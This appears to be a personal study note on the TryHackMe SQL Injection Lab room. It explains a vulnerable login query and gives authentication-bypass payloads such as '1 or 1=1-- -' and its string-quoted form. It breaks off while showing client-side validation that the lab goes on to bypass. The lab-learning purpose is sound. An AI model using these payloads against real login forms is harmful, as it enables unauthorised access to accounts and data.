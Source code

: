 
# SQL Injection Lab

- https://tryhackme.com/room/sqlilab

## Relevant
- [[Commenting Out Code in SQL]]

## Introduction to SQL Injection: Part 1

<iframe width="560" height="315" src="https://www.youtube.com/embed/ciNHn38EyRc" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

### Input Box Non-String

When a user logs in, the application performs the following query:  

`SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID=10 AND password = 'ce5ca67...'`

When logging in, the user supplies input to the profileID parameter. For this challenge, the parameter accepts an integer, as can be seen here:

`profileID=10`

Since there is *no input sanitization*, it is possible to bypass the login by using any True condition such as the one below as the ProfileID

`1 or 1=1-- -`

### Input Box  String

The parameter expects a string instead of an integer, as can be seen here:  

`profileID='10'`

Since it expects a string, we need to modify our payload to bypass the login slightly. The following line will let us in:

`1' or '1'='1'-- -`

### URL and POST Injection

In this case, the malicious user input cannot be injected directly into the application via the login form because some client-side controls have been implemented:

```
function validateform() {

    var profileID = document.inputForm.profileID.value;

    var password = document.inputForm.password.value;

  

    if (/^[a-zA-Z0-9]*$/.test(profileID) == false || /^[a-zA-Z0-9]*$/.test(password) == false) {

        alert("The input fields cannot contain special characters");

        return false;

    }

    if (profileID == null || password == null) {

        alert("The input fields cannot be empty.");
```